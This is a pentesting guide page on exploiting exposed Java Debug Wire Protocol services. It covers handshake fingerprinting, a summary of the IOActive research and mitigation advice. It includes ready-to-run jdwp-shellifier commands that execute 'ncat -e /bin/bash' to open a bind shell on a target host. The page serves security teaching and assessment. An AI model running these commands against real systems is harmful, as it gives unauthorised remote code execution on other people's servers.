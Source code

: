 # Pentesting JDWP - Java Debug Wire Protocol



## Exploiting

JDWP exploitation hinges on the **protocol's lack of authentication and encryption**. It's generally found on **port 8000**, but other ports are possible. The initial connection is made by sending a "JDWP-Handshake" to the target port. If a JDWP service is active, it responds with the same string, confirming its presence. This handshake acts as a fingerprinting method to identify JDWP services on the network.

In terms of process identification, searching for the string "jdwk" in Java processes can indicate an active JDWP session.

The go-to tool is [[https://github.com/hugsy/jdwp-shellifier|jdwp-shellifier]]. You can use it with different parameters:

```bash
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 #Obtain internal data
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --cmd 'ncat -l -p 1337 -e /bin/bash' #Exec something
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --break-on 'java.lang.String.indexOf' --cmd 'ncat -l -p 1337 -e /bin/bash' #Uses java.lang.String.indexOf as breakpoint instead of java.net.ServerSocket.accept
```
```
I found that the use of `--break-on 'java.lang.String.indexOf'` makes the exploit more **stable**. And if you have the chance to upload a backdoor to the host and execute it instead of executing a command, the exploit will be even more stable.

## More details

**This is a summary of [[https://ioactive.com/hacking-java-debug-wire-protocol-or-how/|https://ioactive.com/hacking-java-debug-wire-protocol-or-how/]]**. Check it for further details.

1. **JDWP Overview**:

   - It's a packet-based network binary protocol, primarily synchronous.
   - Lacks authentication and encryption, making it vulnerable when exposed to hostile networks.

2. **JDWP Handshake**:

   - A simple handshake process is used to initiate communication. A 14-character ASCII string “JDWP-Handshake” is exchanged between the Debugger (client) and the Debuggee (server).

3. **JDWP Communication**:

   - Messages have a simple structure with fields like Length, Id, Flag, and CommandSet.
   - CommandSet values range from 0x40 to 0x80, representing different actions and events.

4. **Exploitation**:

   - JDWP allows loading and invoking arbitrary classes and bytecode, posing security risks.
   - The article details an exploitation process in five steps, involving fetching Java Runtime references, setting breakpoints, and invoking methods.

5. **Real-Life Exploitation**:

   - Despite potential firewall protections, JDWP services are discoverable and exploitable in real-world scenarios, as demonstrated by searches on platforms like ShodanHQ and GitHub.
   - The exploit script was tested against various JDK versions and is platform-independent, offering reliable Remote Code Execution (RCE).

6. **Security Implications**:
   - The presence of open JDWP services on the internet underscores the need for regular security reviews, disabling debug functionalities in production, and proper firewall configurations.

### **References:**

- [[https://ioactive.com/hacking-java-debug-wire-protocol-or-how/|[https://ioactive.com/hacking-java-debug-wire-protocol-or-how/]]]
- [[https://github.com/IOActive/jdwp-shellifier|https://github.com/IOActive/jdwp-shellifier]]
- [[http://docs.oracle.com/javase/7/docs/technotes/guides/jpda/architecture.html|http://docs.oracle.com/javase/7/docs/technotes/guides/jpda/architecture.html]]
- http://www.secdev.org/projects/scapy(no longer active)
- [[http://www.shodanhq.com/search?q=JDWP-HANDSHAKE|http://www.shodanhq.com/search?q=JDWP-HANDSHAKE]]
- http://www.hsc-news.com/archives/2013/000109.html (no longer active)
- [[http://packetstormsecurity.com/files/download/122525/JDWP-exploitation.txt|http://packetstormsecurity.com/files/download/122525/JDWP-exploitation.txt]]
- [[https://github.com/search?q=-Xdebug+-Xrunjdwp\&type=Code\&ref=searchresults|https://github.com/search?q=-Xdebug+-Xrunjdwp\&type=Code\&ref=searchresults]]
- [[http://docs.oracle.com/javase/6/docs/api/java/lang/Runtime.html|http://docs.oracle.com/javase/6/docs/api/java/lang/Runtime.html]]
- [[http://docs.oracle.com|http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp-spec.html]]
- [[http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp/jdwp-protocol.html|http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp/jdwp-protocol.html]]
- [[http://nmap.org/nsedoc/scripts/jdwp-exec.html|http://nmap.org/nsedoc/scripts/jdwp-exec.html]]



